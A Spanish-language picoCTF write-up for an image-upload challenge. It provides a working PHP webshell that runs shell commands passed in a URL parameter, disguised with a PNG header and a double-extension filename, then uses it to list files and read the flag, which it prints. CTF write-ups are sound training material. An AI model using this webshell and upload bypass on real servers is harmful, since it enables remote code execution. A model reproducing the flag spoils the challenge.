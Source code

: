 ### Descripción
I found a web app that can help process images: PNG images only!Try it [here](http://atlas.picoctf.net:59519/)!

### Solución
Crear un webshell sencillo de php usando la función system no olvidando colocar primero PNG y guardarlo en un archivo:

```
PNG
<?php
if(isset($_GET['cmd'])) {
        echo "<pre>";
        system($_GET['cmd']);
        echo "</pre>";
}
?>
```
No olvidando colocar correctamente el nombre del archivo para poder subirlo, en este caso sería: webshell.png.php

Nos vamos a ver la carpeta en la que se encuentra el archivo:
```
http://atlas.picoctf.net:57941/uploads/webshell.png.php?cmd=ls%20..
```

Aquí observamos varios archivos, entre ellos uno que destaca:
HFQWKODGMIYTO.txt

Por lo que le vamos a hacer un cat: http://atlas.picoctf.net:57941/uploads/webshell.png.php?cmd=cat%20../HFQWKODGMIYTO.txt que nos muestra la bandera:

```
PNG

/* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_9ae8fb17} */
```

Flag:
picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_9ae8fb17}

### Notas adicionales


### Referencias


